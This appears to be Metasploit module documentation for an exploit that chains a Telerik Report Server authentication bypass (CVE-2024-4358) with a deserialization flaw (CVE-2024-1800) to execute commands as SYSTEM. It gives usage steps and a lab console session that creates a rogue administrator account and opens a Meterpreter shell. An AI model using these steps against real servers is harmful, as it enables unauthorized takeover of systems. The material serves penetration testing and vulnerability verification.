 ## Vulnerable Application
This module chains an authentication bypass vulnerability (CVE-2024-4358) with a deserialization vulnerability
(CVE-2024-1800) to obtain remote code execution against Telerik Report Server version 10.0.24.130 and prior.
The authentication bypass flaw allows an unauthenticated user to create a new user with administrative privileges.
The USERNAME datastore option can be used to authenticate with an existing account to prevent the creation of a
new one. The deserialization flaw works by uploading a specially crafted report that when loaded will execute an
OS command as NT AUTHORITY\SYSTEM. The module will automatically delete the created report but not the account
because users are unable to delete themselves.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/telerik_report_server_deserialization`
1. Set the `RHOSTS`, `PAYLOAD` and payload-related options
1. Do: `run`

## Options

### USERNAME
Username for the existing account. A new account with random username will be used unless specified.

### PASSWORD
Password for the account. If a new account is created, then a random value wil be used unless specified. If an
existing account is used, the password will be used as-is.

## Scenarios

### Telerik Report Server 8.0.22.225 on Windows Server 2022

```
metasploit-framework (S:0 J:0) exploit(windows/http/telerik_report_server_deserialization) > set RHOSTS 192.168.159.27
RHOSTS => 192.168.159.27
metasploit-framework (S:0 J:0) exploit(windows/http/telerik_report_server_deserialization) > set VERBOSE true
VERBOSE => true
metasploit-framework (S:0 J:0) exploit(windows/http/telerik_report_server_deserialization) > set PAYLOAD cmd/windows/powershell/meterpreter/bind_tcp
PAYLOAD => cmd/windows/powershell/meterpreter/bind_tcp
metasploit-framework (S:0 J:0) exploit(windows/http/telerik_report_server_deserialization) > check

[*] Using auxiliary/scanner/http/telerik_report_server_auth_bypass as check
[*] Detected Telerik Report Server version: 8.0.22.225.
[+] 192.168.159.27:83 - The target is vulnerable. Telerik Report Server 8.0.22.225 is affected.
metasploit-framework (S:0 J:0) exploit(windows/http/telerik_report_server_deserialization) > run

[*] Powershell command length: 4211
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/telerik_report_server_auth_bypass as check
[*] Detected Telerik Report Server version: 8.0.22.225.
[+] The target is vulnerable. Telerik Report Server 8.0.22.225 is affected.
[*] Creating a new administrator account using CVE-2024-4358
[+] Created account: benny:g7RkmoaboNexvOKh (Note: This account will not be deleted by the module)
[+] Successfully authenticated as benny
[*] Using category: SamplesX
[*] Created report: tD8xpobpBn
[+] The server responded with an error indicating that the payload was executed
[*] Started bind TCP handler against 192.168.159.27:4444
[-] The connection was refused by the remote host (192.168.159.27:4444).
[-] The connection was refused by the remote host (192.168.159.27:4444).
[-] The connection was refused by the remote host (192.168.159.27:4444).
[*] Sending stage (176198 bytes) to 192.168.159.27
[*] Meterpreter session 1 opened (192.168.250.134:46613 -> 192.168.159.27:4444) at 2024-06-06 14:37:18 -0400
[*] Deleting report 'tD8xpobpBn' (ID: 64897ea2acf)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : SRV-DOM
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : labs1collabu0
Logged On Users : 14
Meterpreter     : x86/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > 
```
